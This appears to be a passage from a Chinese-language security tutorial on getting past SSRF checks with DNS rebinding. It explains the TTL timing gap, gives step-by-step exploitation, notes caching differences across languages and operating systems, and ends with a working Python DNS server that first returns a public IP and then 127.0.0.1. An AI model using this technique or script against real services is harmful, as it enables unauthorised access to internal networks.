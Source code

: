 从SSRF修复方案来看，这里流程中进行了两次DNS解析，第一次在check_ssrf的时候会对URL的host进行DNS解析，第二次在do_curl请求时进行解析。这两次DNS解析是有时间差的，我们可以使用这个时间差进行绕过。

 
时间差对应DNS中的机制是TTL。TTL表示DNS里面域名和IP绑定关系的Cache在DNS上存活的最长时间。即请求了域名与iP的关系后，请求方会缓存这个关系，缓存保持的时间就是TTL。而缓存失效后就会删除，这时候如果重新访问域名指定的IP的话会重新建立匹配关系及cache。



当我们设置TTL为0时，当第一次解析域名后，第二次会重新请求DNS服务器获取新的ip。DNS重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的ip达到突破同源策略或过waf进行ssrf的目的。



这里利用方法如下：



\1. 在网站 SSRF 漏洞处访问精心构造的域名。网站第一次解析域名，获取到的IP地址为A；
\2. 经过网站后端服务器的检查，判定此IP为合法IP。
\3. 网站获取URL对应的资源（在一次网络请求中，先根据域名服务器获取IP地址，再向IP地址请求资源），第二次解析域名。此时已经过了ttl的时间，解析记录缓存IP被删除。第二次解析到的域名为被修改后的 IP 即为内网IP B；
\4. 攻击者访问到了内网IP。 

当然，上述情况是最理想的情况，在不同的语言，不同服务器中也存在差异

 
\1. java中DNS请求成功的话默认缓存30s(字段为networkaddress.cache.ttl，默认情况下没有设置)，失败的默认缓存10s。（缓存时间在 /Library/Java/JavaVirtualMachines/jdk /Contents/Home/jre/lib/security/java.security 中配置）
\2. 在php中则默认没有缓存。
\3. Linux默认不会进行DNS缓存，mac和windows会缓存(所以复现的时候不要在mac、windows上尝试)
\4. 有些公共DNS服务器，比如114.114.114.114还是会把记录进行缓存，但是8.8.8.8是严格按照DNS协议去管理缓存的，如果设置TTL为0，则不会进行缓存。 

在传统的ssrf修复方案中，由于java会存在默认的dns缓存，所以一般认为java不存在DNS rebinding问题。但是试想这么一个场景，如果刚刚好到了DNS缓存时间，此时更新DNS缓存，那些已经过了SSRF Check而又没有正式发起业务请求的request，是否使用的是新的DNS解析结果。其实理论上只要在发起第一次请求后等到30秒之前的时候再请求即可，但为了保证效果，可以在28s左右，开始以一个较短的时间间隔去发送请求，以达到时间竞争的效果。相关示例代码可参考附录三。



Dns rebinding常见方案除了自建dns服务器之外，还可以通过绑定两个A记录，一个绑定外网ip，一个绑定内网ip。当然这种情况访问顺序是随机的，无法保证成功率。



自建dns服务器需要将域名的dns服务指向自己的vps，然后在vps上运行dns_server脚本，dns_server.py内容如下 

```
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server


record={}
class DynamicResolver(object):
    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in record or record[name]<1:
            # 随意一个 IP，绕过检查即可
            ip="104.160.43.154"
        else:
            ip="127.0.0.1"
        if name not in record:
            record[name]=0
        record[name]+=1
        print name+" ===> "+ip
        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
```